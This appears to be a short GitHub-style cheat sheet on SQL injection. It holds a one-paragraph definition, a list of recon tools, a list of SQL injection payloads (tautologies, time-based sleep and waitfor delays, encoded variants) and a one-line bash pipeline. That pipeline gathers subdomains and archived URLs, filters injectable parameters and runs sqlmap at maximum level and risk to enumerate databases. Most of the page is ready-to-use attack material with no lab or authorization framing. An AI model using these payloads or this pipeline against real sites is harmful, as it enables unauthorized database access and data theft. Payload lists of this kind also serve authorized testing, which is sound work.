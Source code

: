 <div align="center"><samp><h1>SQL injection (SQLI) - PAYLOAD</h1></samp></div>
<b> Overview : </b>
<p>
A SQL injection is a technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query. A SQL injection (SQLi) manipulates SQL code to provide access to protected resources, such as sensitive data, or execute malicious SQL statements.
</p>
<div align="center"><samp><h1>Required Tools</h1></samp></div>
<pre>
httpx
subfinder
waybackurls
Gf Pattern
Sqlmap
Anew
</pre>
<div align="center"><samp><h1>Payload List</h1></samp></div>

```
'
' OR 1=1
' OR '1'='1
' OR 'True'='True
'pg_sleep(5) --+-
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
' OR 1=1--
' OR 1=0--
%27%20or%201=1
*(|(object=*))
)%20or%20('x'='x
%20or%201=1
1) or pg_sleep(__TIME__)--
/**/or/**/1/**/=1
' or username like '%
);waitfor delay '0:0:__TIME__'--
or isNULL(1/0) /*
x' or 1=1 or 'x'='y
```
<samp>
<b>Automatic Bash Script :</b>
</samp>

```
cat wilcard.txt | subfinder -silent | httpx -silent | waybackurls | tee -a potential.txt; gf sqli | anew sqlmap.txt; sqlmap -m sqlmap.txt --technique=BEUST --level=5 --risk=3 -v3 --random-agent --dbs
```
